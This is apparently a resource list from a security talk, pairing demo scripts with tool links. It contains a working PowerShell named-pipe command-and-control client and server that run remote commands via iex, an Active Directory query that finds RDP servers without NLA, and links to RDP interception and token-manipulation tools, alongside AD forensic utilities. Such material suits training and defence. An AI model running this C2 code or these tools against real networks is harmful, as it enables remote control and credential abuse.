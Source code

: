 <b>Scripts, tools and commands shown or mentioned in the demos of this talk:</B>
<br><br>
<b>Named pipes C2:</b>

client side -

$pipe = new-object System.IO.Pipes.NamedPipeClientStream '10.0.0.1','mypipe','In'; $pipe.Connect(); $sr = new-object System.IO.StreamReader $pipe; while (($data = $sr.ReadLine()) -ne $null) { iex $data }

#$sr.Dispose(); $pipe.Dispose() 

Server side -

$pipe = new-object System.IO.Pipes.NamedPipeServerStream 'mypipe','Out'; $pipe.WaitForConnection(); $sw = new-object System.IO.StreamWriter $pipe; $sw.AutoFlush = $true; $sw.WriteLine("whoami")

#$sw.Dispose(); $pipe.Dispose()

<br>
<b>Detecting targets ‘Living off the land’ (RDP hosts without NLA enforced):</b>

([adsisearcher]'(&(serviceprincipalname=*TERMSRV*)(operatingsystem=*windows*server*200*))').FindAll()

<br>
<b>RDP AitM:</b>

https://github.com/SySS-Research/Seth

<br>
<b>Track past changes in AD accounts without logs:</b>

https://github.com/YossiSassi/AD-Replication-Metadata

<br>
<b>Get change history for AD group memberships:</b>

https://github.com/YossiSassi/Get-ADGroupChanges

<br>
<b>Token duplication (one option out of many):</b>

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
